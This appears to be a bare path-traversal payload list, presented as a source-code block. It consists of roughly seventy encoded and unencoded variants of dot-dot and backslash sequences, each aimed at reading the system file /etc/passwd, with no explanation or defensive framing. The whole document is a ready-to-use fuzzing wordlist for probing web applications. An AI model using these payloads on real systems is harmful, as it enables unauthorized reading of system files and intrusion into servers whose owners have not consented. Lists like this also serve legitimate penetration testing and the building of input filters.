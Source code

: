 ```llvm
etc%%32%66passwd
\etc/passwd
\../etc/passwd
\../../etc/passwd
\../../../etc/passwd
\../../../../etc/passwd
\../../../../../etc/passwd
0x2e0x2e0x5cetc0x5cpasswd
0x2e0x2e0x5cetc/passwd
0x2e0x2e0x5c0x2e0x2e0x5cetc0x5cpasswd
0x2e0x2e0x5c0x2e0x2e0x5cetc/passwd
0x2e0x2e0x5c0x2e0x2e0x5c0x2e0x2e0x5cetc0x5cpasswd
0x2e0x2e0x5c0x2e0x2e0x5c0x2e0x2e0x5cetc/passwd
0x2e0x2e0x5c0x2e0x2e0x5c0x2e0x2e0x5c0x2e0x2e0x5cetc0x5cpasswd
0x2e0x2e0x5c0x2e0x2e0x5c0x2e0x2e0x5c0x2e0x2e0x5cetc/passwd
0x2e0x2e0x5c0x2e0x2e0x5c0x2e0x2e0x5c0x2e0x2e0x5c0x2e0x2e0x5cetc0x5cpasswd
0x2e0x2e0x5c0x2e0x2e0x5c0x2e0x2e0x5c0x2e0x2e0x5c0x2e0x2e0x5cetc/passwd
0x2e0x2e0x5c0x2e0x2e0x5c0x2e0x2e0x5c0x2e0x2e0x5c0x2e0x2e/etc/passwd
0x2e0x2e0x5c0x2e0x2e0x5c0x2e0x2e0x5c0x2e0x2e/etc/passwd
0x2e0x2e0x5c0x2e0x2e0x5c0x2e0x2e/etc/passwd
0x2e0x2e0x5c0x2e0x2e/etc/passwd
0x2e0x2e0x2fetc0x2fpasswd
0x2e0x2e0x2fetc/passwd
0x2e0x2e0x2f0x2e0x2e0x2fetc0x2fpasswd
0x2e0x2e0x2f0x2e0x2e0x2fetc/passwd
0x2e0x2e0x2f0x2e0x2e0x2f0x2e0x2e0x2fetc0x2fpasswd
0x2e0x2e0x2f0x2e0x2e0x2f0x2e0x2e0x2fetc/passwd
0x2e0x2e0x2f0x2e0x2e0x2f0x2e0x2e0x2f0x2e0x2e0x2fetc0x2fpasswd
0x2e0x2e0x2f0x2e0x2e0x2f0x2e0x2e0x2f0x2e0x2e0x2fetc/passwd
0x2e0x2e0x2f0x2e0x2e0x2f0x2e0x2e0x2f0x2e0x2e0x2f0x2e0x2e0x2fetc0x2fpasswd
0x2e0x2e0x2f0x2e0x2e0x2f0x2e0x2e0x2f0x2e0x2e0x2f0x2e0x2e0x2fetc/passwd
0x2e0x2e0x2f0x2e0x2e0x2f0x2e0x2e0x2f0x2e0x2e0x2f0x2e0x2e/etc/passwd
0x2e0x2e0x2f0x2e0x2e0x2f0x2e0x2e0x2f0x2e0x2e/etc/passwd
0x2e0x2e0x2f0x2e0x2e0x2f0x2e0x2e/etc/passwd
0x2e0x2e0x2f0x2e0x2e/etc/passwd
0x2e0x2e/etc/passwd
0x2e0x2e/0x2e0x2e/etc/passwd
0x2e0x2e/0x2e0x2e/0x2e0x2e/etc/passwd
0x2e0x2e/0x2e0x2e/0x2e0x2e/0x2e0x2e/etc/passwd
0x2e0x2e/0x2e0x2e/0x2e0x2e/0x2e0x2e/0x2e0x2e/etc/passwd
/etc/passwd
/..;/etc/passwd
/..;/../etc/passwd
/..;/../../etc/passwd
/..;/../../../etc/passwd
/..;/../../../../etc/passwd
/..;/../../../../../etc/passwd
/../etc/passwd
/../../etc/passwd
/../../../etc/passwd
/../../../../etc/passwd
/../../../../../etc/passwd
..\etc\passwd
..\etc/passwd
..\\etc\\passwd
..\\etc/passwd
..\\\etc\\\passwd
..\\\etc/passwd
..\\\..\\\etc\\\passwd
..\\\..\\\etc/passwd
..\\\..\\\..\\\etc\\\passwd
..\\\..\\\..\\\etc/passwd
..\\\..\\\..\\\..\\\etc\\\passwd
```